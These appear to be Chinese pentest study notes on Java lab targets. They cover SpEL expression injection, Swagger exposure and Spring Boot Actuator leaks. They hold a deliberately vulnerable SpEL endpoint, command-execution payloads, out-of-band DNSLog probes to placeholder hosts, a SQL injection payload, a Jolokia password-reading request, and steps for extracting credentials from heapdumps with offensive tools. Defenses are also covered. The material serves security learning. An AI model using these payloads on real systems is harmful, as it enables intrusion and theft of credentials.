# 表达式注入漏洞

靶场：

https://github.com/j3ers3/Hello-Java-Sec

https://github.com/whgojp/JavaSecLab

下载源码后按照要求配置数据库。然后启动

如果报错，检查maven的源，尝试切换到国内源，然后重新重新加载几次。差不多就可以启动访问了。

### 表达式注入？

表达式注入是指攻击者通过控制输入，向程序中注入恶意表达式，这些表达式在服务端被动态求值（evaluate），从而执行任意代码、读取敏感数据、修改系统状态，甚至获得服务器控制权。

在Java中，常见的表达式语言包括：

- **SpEL（Spring Expression Language）**：Spring框架中使用
- **OGNL（Object-Graph Navigation Language）**：Struts2中使用
- **MVEL（MVFLEX Expression Language）**：JBoss Drools等使用
- **JSP EL（JavaServer Pages Expression Language）**

## SPEL表达式注入

### IDEA新建项目







代码如下

```java
package com.example.demo;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.RestController;

@RestController
public class UserController {

    @GetMapping("/greet")
    public String greet(@RequestParam String name) {
        ExpressionParser parser = new SpelExpressionParser();
        Expression exp = parser.parseExpression(name); // ⚠️ 漏洞点
        Object value = exp.getValue();
        return "Result: " + value;
    }
}
```

然后重载一下maven，运行Demo文件，就可以访问了

> http://localhost:8080/greet?name=%22Hello%20World%22

返回：Result: Hello World

### 尝试命令注入

> http://localhost:8080/greet?name=T(java.lang.Runtime).getRuntime().exec('calc')



成功弹出计算机

### 原理

传入的参数 `T(java.lang.Runtime).getRuntime().exec('calc')`

这个参数传入到代码中

```java
Expression exp = parser.parseExpression(name); // name 是用户输入
exp.getValue(); // 执行表达式
```

### SpEL 表达式语法解释

SpEL（Spring Expression Language）支持调用 Java 类和方法，其中：

| 语法                   | 含义                                      |
| ---------------------- | ----------------------------------------- |
| `T(Class)`             | 获取指定类的`Class`对象                   |
| `T(java.lang.Runtime)` | 相当于 Java 中的`java.lang.Runtime.class` |
| `.getRuntime()`        | 调用`Runtime.getRuntime()`获取运行时实例  |
| `.exec('calc')`        | 执行系统命令`calc`（Windows 计算器）      |

所以整个表达式等价于 Java 代码：

`Runtime.getRuntime().exec("calc");`

这行代码的作用就是：**在操作系统上执行 `calc.exe` 程序，弹出计算器。**

这是因为 Spring 的 `SpelExpressionParser` 支持反射调用 Java 类和方法，所以就弹出了计算器

## 靶场代码分析

查看运行的靶场中的表达式注入的部分，运行有漏洞的代码

访问了：http://127.0.0.1:8888/vulnapi/SPEL/vul?ex=100-1

页面返回`99`，说明发生了计算，尝试更改参数

**T(java.lang.Runtime).getRunTime().exec('calc')**



分析代码



在漏洞代码中

```java
ExpressionParser parser = new SpelExpressionParser();
Expression exp = parser.parseExpression(ex);
```

直接解析用户输入，导致触发表达式注入漏洞

而在安全代码

`    EvaluationContext simpleContext = SimpleEvaluationContext.forReadOnlyDataBinding().build();`

1. 使用 `SimpleEvaluationContext.forReadOnlyDataBinding()`

- 这是一个**受限上下文**，专为数据绑定设计（如 Spring MVC 参数绑定、Thymeleaf 模板）
- 默认禁用：
  - `T()` 获取类
  - `new` 创建对象
  - 方法调用（如 `.exec()`）
  - Bean 引用（如 `@service@method()`）

2. `.build()` 构建不可变上下文

- 防止后续修改配置

所以安全代码限制了攻击的payload

## 黑白盒分析

> ## 🎯 目标
> 分析表达式注入漏洞的 **存在条件**，分别从：
>
> - **黑盒视角（Black Box）**：仅通过接口行为判断是否存在漏洞
> - **白盒视角（White Box）**：通过源码或字节码分析漏洞成因
>
> ---
>
> # 一、漏洞存在的根本前提
>
> 表达式注入漏洞存在的**核心条件**是：
>
> > ✅ **用户输入被当作表达式语言（如 SpEL、OGNL）直接求值（evaluate）**
>
> 只要满足这个条件，就可能触发远程代码执行（RCE）、信息泄露等高危风险。
>
> ---
>
> ## 二、黑盒视角：如何发现表达式注入漏洞？
>
> 黑盒测试中，你**没有源码**，只能通过请求/响应来判断是否存在漏洞。
>
> ### ✅ 存在漏洞的典型迹象
>
> | 现象                    | 说明                                                         |
> | ----------------------- | ------------------------------------------------------------ |
> | 1. 输入被“计算”或“解析” | 输入 `1+1` 返回 `2`，说明后端可能在执行表达式                |
> | 2. 支持特殊语法         | 输入 `${1+1}`、`%{1+1}`、`#{1+1}` 返回 `2`，可能是 EL/OGNL/SpEL |
> | 3. 返回 Java 对象信息   | 输入 `@java.lang.System@getProperty('os.name')` 返回操作系统名 |
> | 4. 延迟响应             | 输入 `T(java.lang.Thread).sleep(5000)` 导致响应延迟 5 秒     |
> | 5. 外带行为             | 输入 `T(java.net.URL).new('http://your-server.com')` 触发 DNS 或 HTTP 请求 |
>
> ### 🔍 黑盒测试常用 Payload（探测用）
>
> | 类型                    | 示例 Payload                                                 |
> | ----------------------- | ------------------------------------------------------------ |
> | **基础表达式**          | `${1+1}`、`#{2*3}`、`%{3-1}`                                 |
> | **Java 类调用**         | `@java.lang.System@currentTimeMillis()`                      |
> | **静态方法调用**        | `T(java.lang.Math).random()`                                 |
> | **命令执行（Windows）** | `T(java.lang.Runtime).getRuntime().exec('calc')`             |
> | **命令执行（Linux）**   | `T(java.lang.Runtime).getRuntime().exec('touch /tmp/pwned')` |
> | **延迟测试**            | `T(java.lang.Thread).sleep(5000)`                            |
> | **外带测试**            | `T(java.net.InetAddress).getByName('test.xxxx.dnslog.cn')`   |
>
> > 📌 使用 [DNSLog](https://dnslog.cn) 或 [Burp Collaborator](https://portswigger.net/burp) 检测外带行为，确认盲注入。
>
> ---
>
> ### ✅ 黑盒下漏洞存在的典型场景
>
> | 场景                                                         | 说明                                            |
> | ------------------------------------------------------------ | ----------------------------------------------- |
> | 1. 参数用于模板渲染                                          | 如：`/welcome?name=${user}`，后端使用 SpEL 渲染 |
> | 2. 动态规则引擎接口                                          | 如：`/rule/evaluate?expr=...`，用于计算风控规则 |
> | 3. 表单校验表达式                                            | 某些框架允许用表达式定义校验逻辑                |
> | 4. 文件名/路径拼接使用表达式                                 | 如：`download?file=#{user.home}/doc.txt`        |
> | 5. 使用了 Struts2、Spring Data REST、Spring Cloud Function 等组件 | 历史上有多个表达式注入 CVE                      |
>
> ---
>
> ## 三、白盒视角：如何从代码判断漏洞存在？
>
> 白盒测试中，你有源码或字节码，可以直接分析是否存在风险代码。
>
> ### ✅ 漏洞存在的代码特征（危险模式）
>
> | 风险点                             | 示例代码                                                     | 风险等级                   |
> | ---------------------------------- | ------------------------------------------------------------ | -------------------------- |
> | 1. 直接解析用户输入                | `parser.parseExpression(request.getParameter("expr"))`       | ⚠️ 高危                     |
> | 2. 使用 SpEL 且无过滤              | `new SpelExpressionParser().parseExpression(input).getValue()` | ⚠️ 高危                     |
> | 3. 使用 OGNL 且信任输入            | `Ognl.getValue(input, context, root)`                        | ⚠️ 高危                     |
> | 4. 使用 MVEL、Aviator 等表达式引擎 | `MVEL.eval(input)`                                           | ⚠️ 高危                     |
> | 5. Spring Data REST 自动暴露       | `@Query("select ... where name = #{#username}")`             | ⚠️ 中高（若 username 可控） |
>
> ---
>
> ### 🔍 典型漏洞代码模式（白盒审计关键词）
>
> 在代码中搜索以下关键词：
>
> | 关键词                 | 说明                |
> | ---------------------- | ------------------- |
> | `SpelExpressionParser` | SpEL 解析器         |
> | `parseExpression(`     | 解析表达式入口      |
> | `getValue(`            | 执行表达式          |
> | `Ognl.getValue(`       | OGNL 执行           |
> | `MVEL.eval(`           | MVEL 表达式执行     |
> | `T(`                   | SpEL 中调用类的标志 |
> | `new `                 | SpEL 中创建对象     |
> | `@xxx@`                | SpEL 中调用静态方法 |
>
> ---
>
> ### ✅ 白盒下漏洞存在的典型场景
>
> | 场景                      | 代码示例                                  | 风险分析             |
> | ------------------------- | ----------------------------------------- | -------------------- |
> | 1. 用户输入直接传给 SpEL  | `parseExpression(name)`                   | ❌ 高危               |
> | 2. 参数化表达式但变量可控 | `#{#user.input}` 且 `user.input` 来自请求 | ❌ 中高               |
> | 3. 使用 SpEL 做动态查询   | `@Query("...#{#filter}")`                 | 若 filter 可控则危险 |
> | 4. 自定义表达式求值接口   | 提供 `/eval?code=...` 接口                | ❌ 极高危             |
>
> ---
>
> ## 四、漏洞存在的环境依赖（增强判断）
>
> 即使代码有风险，也**不一定能成功利用**，还需满足环境条件。
>
> | 条件                   | 是否必需 | 说明                      |
> | ---------------------- | -------- | ------------------------- |
> | JDK 版本 ≤ 8           | 否       | Java 9+ 模块化限制反射    |
> | Spring 版本 < 5.3      | 是       | 新版本默认禁用高危操作    |
> | 未启用 SecurityManager | 是       | 有安全管理器可能阻止 exec |
> | 运行在 Windows         | 否       | `calc` 只在 Windows 有效  |
> | 应用以高权限运行       | 是       | 决定 RCE 后的破坏力       |
> | 未使用 WAF/RASP        | 是       | 可能被拦截                |
>
> ---
>
> ## 五、防御措施对比（黑白盒视角）
>
> | 防御措施           | 黑盒可见 | 白盒可见 | 说明                    |
> | ------------------ | -------- | -------- | ----------------------- |
> | 输入不被解析       | ✅        | ✅        | 黑盒测试无回显          |
> | 使用参数化表达式   | ❌        | ✅        | 白盒可见安全模式        |
> | 禁用 `T()`、`new`  | ❌        | ✅        | 白盒配置或自定义 parser |
> | 升级到 Spring 5.3+ | ❌        | ✅        | 白盒依赖版本            |
> | WAF 拦截 `${}`     | ✅        | ❌        | 黑盒返回 403            |
>
> ---
>
> ## 六、总结：表达式注入漏洞存在的条件
>
> | 维度         | 存在条件                                          |
> | ------------ | ------------------------------------------------- |
> | **根本原因** | 用户输入被当作表达式执行                          |
> | **黑盒视角** | 输入能触发计算、延迟、外带、命令执行等行为        |
> | **白盒视角** | 代码中存在 `parseExpression(userInput)` 类调用    |
> | **框架依赖** | 使用 Spring、Struts2、MVEL 等支持表达式引擎的框架 |
> | **版本影响** | 老版本（如 Spring < 5.3）更易受攻击               |
> | **利用条件** | 需要目标系统允许执行系统命令（如 Runtime.exec）   |
>
> ---
>
> ## ✅ 安全建议
>
> ### 对开发者：
> - ❌ 禁止直接解析用户输入的表达式
> - ✅ 使用参数化表达式（`'Hello ' + name`）
> - ✅ 输入过滤或白名单校验
> - ✅ 升级框架到最新版本
>
> ### 对安全测试者：
> - 🔍 黑盒：用 `${1+1}`、`@java.lang...` 探测
> - 📄 白盒：搜索 `SpelExpressionParser`、`parseExpression` 等关键词
> - 🛡️ 使用自动化工具（如 Semgrep、Checkmarx、Fortify）扫描
>
> 

# SWagger接口泄露

### wagger 是什么

**Swagger**（现称 **OpenAPI**）是一个用于 **自动生成 API 文档** 的工具。开发者通过在代码中添加注解，Swagger 就能自动创建交互式文档页面，方便测试和查看接口

**泄露风险的本质**：

当开发者未对 Swagger 文档页面设置访问权限时，攻击者可直接通过浏览器访问这些页面，获取所有 API 的详细描述（如接口功能、参数格式、认证方式等），相当于拿到了系统的“使用说明书”

### Swagger接口泄露漏洞

**Swagger 接口漏洞** 是指由于不当配置或缺乏安全保护导致 API 文档（Swagger UI）暴露在互联网，进而可能被恶意攻击者利用，从而对系统造成安全威胁的漏洞。Swagger 通过自动生成 API 文档和提供交互式的 API 调用界面，使开发者能够快速调试和测试 API，但是如果接口文档没有得到妥善保护，就会导致敏感信息的泄露、未经授权的接口访问、恶意操作等安全风险。

#### **常见的 Swagger 接口漏洞及其安全风险**

1. #### 1. **未授权访问 API 文档**

   - **典型路径**：`/swagger-ui.html`、`/v3/api-docs`等（共 ）。
   - **后果**：攻击者直接查看所有接口信息，无需登录或权限验证

   #### 2. **敏感信息泄露**

   - **接口细节**：包括数据库操作、用户管理、支付等核心接口的参数格式
   - **认证信息**：文档中可能暴露 API Key、OAuth2 配置、甚至硬编码的账号密码（如 `"password": "P@ssw0rd"`）
   - **测试接口**：开发用的调试接口（如 `/debug/clear-cache`）被公开，可能含高危漏洞

   #### 3. **衍生攻击**

   - **直接调用接口**：通过 Swagger 页面的 `Try it out`功能，攻击者可模拟请求删除数据或创建管理员账号
   - **XSS 攻击**：若接口参数未过滤，输入 `<script>恶意代码</script>`可能触发跨站脚本攻击
   - **辅助其他漏洞**：暴露的接口结构帮助攻击者快速发现 SQL 注入、SSRF 等漏洞

### 漏洞查找，可以直接fofa搜索，一搜一大堆


## 如何测

- 1、发现扫描器
- 2、如何利用swagger页面中的漏洞
  - 手工（量少）
  - 工具

#### 利用步骤

安装==Apifox==工具，官网：https://www.apifox.cn

安装之后打开，新建一个项目









新建目录然后导入





选择一个接口进行测试



配置环境



填入cookie

测试payload：1%27%20and%20updatexml(1,concat(0x7e,(SELECT%20user()),0x7e),1)--%20+



可以看到成功返回结果

### 漏洞发现

## 一、插件spring-scan

因为swagger搭建在spring上，可以使用spring的扫描工具来扫

谷歌浏览器插件：https://gitee.com/team-man/spring-scan

安装后就可以扫描，字典有自带的，也可以自己网上下载

运行扫描结果



# Actuator泄露

Spring Boot Actuator是Spring框架提供的监控管理模块，通过HTTP端点或JMX接口暴露应用运行状态信息，包括健康检查、环境属性、性能指标等。这些功能在方便开发运维的同时，也带来了显著的安全风险

## 漏洞成因深度分析

Actuator漏洞的产生既有框架设计因素，也有配置管理问题，主要包括以下核心原因：

**框架版本差异与默认配置**：

- Spring Boot 1.x版本默认开放所有Actuator端点且无需认证，包括高危的/env、/heapdump等。2.x版本虽优化了默认配置（仅开放/health和/info），但开发者可能通过`management.endpoints.web.exposure.include=*`配置错误地暴露所有端点
- 端点路径标准化（如1.x为`/dump`，2.x为`/actuator/threaddump`）降低了攻击者的探测难度

**常见危险配置模式**：

- 在application.properties中设置`management.endpoints.web.exposure.include=*`暴露所有端点
- 启用高危端点如`management.endpoint.heapdump.enabled=true`且未设访问控制
- 添加`eureka-client`依赖但未升级到安全版本，结合/env和/refresh端点可实现RCE
- 集成Jolokia组件但未限制JMX操作，允许加载恶意XML文件

**开发运维中的典型疏忽**：

- 生产环境沿用了开发阶段的宽松配置

- 未对Actuator端点实施与业务接口同等级别的安全防护

- 未定期审计和更新依赖组件，存在已知漏洞版本

### 发现与利用

> # Spring Boot Actuator信息泄露漏洞深度分析与利用
>
> Spring Boot Actuator作为Spring框架提供的监控管理模块，在方便开发运维的同时，也带来了严重的安全隐患。本文将全面分析Actuator信息泄露漏洞的类型、利用方式及防护措施。
>
> ## Actuator信息泄露漏洞类型
>
> ### 1. Heapdump内存泄露
>
> Heapdump是Actuator提供的最危险端点之一，它会生成JVM堆转储文件，包含应用程序运行时的内存快照。通过分析这些文件，攻击者可以获取敏感信息：
>
> - **数据库连接信息**：包括用户名、密码、连接字符串等
> - **加密密钥**：如JWT签名密钥、加密密钥等
> - **会话信息**：用户会话令牌、Cookie等
> - **配置信息**：各类敏感配置项
>
> 利用方式：
>
> 1. 访问`/actuator/heapdump`或`/heapdump`端点下载堆转储文件
> 2. 使用工具如`heapdump_tool`、`JDumpSpider`或`Eclipse Memory Analyzer`分析文件
> 3. 通过关键字搜索(如"password"、"secret"等)提取敏感信息
>
> ### 2. Jolokia端点利用
>
> Jolokia是一个JMX-HTTP桥接器，当应用程序添加了`jolokia-core`依赖时，会暴露`/actuator/jolokia`端点。该端点可导致：
>
> - **敏感信息泄露**：通过调用特定MBean获取被星号(*)遮掩的配置信息
> - **远程代码执行(RCE)**：利用`reloadByURL`等方法加载恶意XML实现XXE攻击或JNDI注入
>
> 典型利用步骤：
>
> 1. 访问`/actuator/jolokia/list`查看可用MBean
> 2. 通过POST请求调用特定MBean方法获取敏感信息：
>
> ```
> {
>   "mbean": "org.springframework.boot:name=SpringApplication,type=Admin",
>   "operation": "getProperty",
>   "type": "EXEC",
>   "arguments": ["security.user.password"]
> }
> ```
>
> ### 3. Env端点信息泄露
>
> `/actuator/env`端点会暴露应用程序的所有环境变量和配置属性，可能导致：
>
> - **数据库配置泄露**：包括连接字符串、用户名和密码(可能被星号遮掩)
> - **内部API信息**：服务发现配置、微服务通信地址等
> - **加密密钥**：各类加密算法使用的密钥
>
> 特殊利用技巧：
>
> - 当密码字段命名不规范(如使用"pwd"而非"password")时，可能直接显示明文
> - 结合`/refresh`端点可修改配置，进一步利用
>
> ### 4. 其他敏感端点
>
> - **/trace或/httptrace**：记录最近的HTTP请求，可能包含用户Cookie、JWT令牌等认证信息
> - **/mappings**：暴露所有路由信息，帮助攻击者发现隐藏接口
> - **/configprops**：显示所有`@ConfigurationProperties`bean的配置信息
> - **/threaddump**：线程转储信息，可能暴露内部处理逻辑
>
> ## 自动化利用工具与技术
>
> ### 1. 扫描器检测
>
> **黑盒检测方法**：
>
> - 使用Burp Suite插件如APIKit扫描Actuator端点
> - Fofa等网络空间测绘引擎搜索`body"Whitelabel Error Page" && icon_hash"116323821"`
> - 目录扫描工具如Dirsearch添加Actuator常见路径进行扫描
>
> **白盒检测方法**：
>
> - 检查`pom.xml`是否包含`spring-boot-starter-actuator`依赖
> - 检查`application.properties`中是否有`management.endpoints.web.exposure.include=*`配置
>
> ### 2. 自动化利用工具
>
> - **heapdump_tool**：快速从heapdump文件中提取密码、密钥等敏感信息
> - **JDumpSpider**：全面分析heapdump文件，支持多种数据源配置信息提取
> - **SpringBootExploit**：集成多种Actuator漏洞检测与利用功能，支持JNDI注入等高级利用
> - **JNDIExploit**：配合Jolokia利用实现RCE
>
> ## 漏洞防护措施
>
> ### 1. 安全配置
>
> - **禁用不必要端点**：
>
> ```
> management.endpoint.heapdump.enabled=false
> management.endpoint.env.enabled=false
> management.endpoint.jolokia.enabled=false
> ```
>
> - **限制端点暴露范围**：
>
> ```
> management.endpoints.web.exposure.include=health,info
> management.endpoints.web.exposure.exclude=env,heapdump,jolokia
> ```
>
> ### 2. 访问控制
>
> - **引入Spring Security**：
>
> ```
> <dependency>
>     <groupId>org.springframework.boot</groupId>
>     <artifactId>spring-boot-starter-security</artifactId>
> </dependency>
> ```
>
> - **配置基于角色的访问控制**：
>
> ```
> http.authorizeRequests()
>     .antMatchers("/actuator/health").permitAll()
>     .antMatchers("/actuator/**").hasRole("ACTUATOR_ADMIN")
>     .and()
>     .httpBasic();
> ```
>
> ### 3. 网络层防护
>
> - **使用独立管理端口**：`management.server.port=8099`
> - **配置网络ACL**：限制管理端口的访问源IP
> - **启用HTTPS**：防止敏感信息在传输过程中被窃取
>
> ### 4. 运行时防护
>
> - **部署WAF**：拦截针对Actuator端点的恶意请求
> - **实施RASP**：监控可疑的Actuator访问行为
> - **日志审计**：定期检查Actuator端点的访问日志
>
> ## 总结
>
> Spring Boot Actuator信息泄露漏洞危害严重，攻击者可通过heapdump、jolokia、env等端点获取敏感信息，甚至实现远程代码执行。开发运维人员应充分认识其风险，采取最小化暴露、强制认证、网络隔离等多层防护措施，确保应用程序安全。

# 工具

首先是上面介绍的浏览器插件，然后

## 1、SBSCAN

https://github.com/sule01u/SBSCAN

**SBSCAN是一款专注于spring框架的渗透测试工具，可以对指定站点进行springboot未授权扫描/敏感信息扫描以及进行spring相关漏洞的扫描与验证。**

**使用**

> python sbscan.py -u http://127.0.0.1:8888



对于javaseclab靶场，直接扫描没有结果，需要登录，所以可以设置参数Cookie，就会有结果了

> python sbscan.py -u http://127.0.0.1:8001 -H "Cookie: JSESSIONID=3CA81888B2D6F4C19B0806EE257E717A"




## 二、heapdump利用工具

JDumpSpider提取器：https://github.com/whwlsfb/JDumpSpider

heapdump_tool提取器：https://github.com/wyzxxz/heapdump_tool

JDumpSpiderGUI提取器：https://github.com/DeEpinGh0st/JDumpSpiderGUI

分析提取出敏感信息（配置帐号密码，接口信息 数据库 短信 云应用等配置）

### JDumpSpider

使用上面提到的浏览器插件探测到的heapdump



点击就会下载heapdump文件

保存到存放工具的统计目录，运行命令

> java -jar JDumpSpider-1.1-SNAPSHOT-full.jar heapdump



就会自动分析文件，得到的内容就是

- **数据库连接信息**：包括用户名、密码、连接字符串等
- **加密密钥**：如JWT签名密钥、加密密钥等
- **会话信息**：用户会话令牌、Cookie等
- **配置信息**：各类敏感配置项

## JDumpSpiderGUI  --图形化界面

运行 `java -jar JDumpSpiderGUI-1.0-SNAPSHOT-full.jar --gui`

就会打开图形化界面，然后选择heapdump就会自动分析文件



## 三、YYBaby-Spring_Scan工具

https://github.com/CllmsyK/YYBaby-Spring_Scan

一款针对Spring框架的漏洞扫描及漏洞利用图形化工具



对于需要登录的网站，直接扫描不可以，需要使用Cookie




## 四、SpringBootVul-GUI

https://github.com/wh1t3zer/SpringBootVul-GUI

一个半自动化springboot打点工具，内置目前springboot所有漏洞


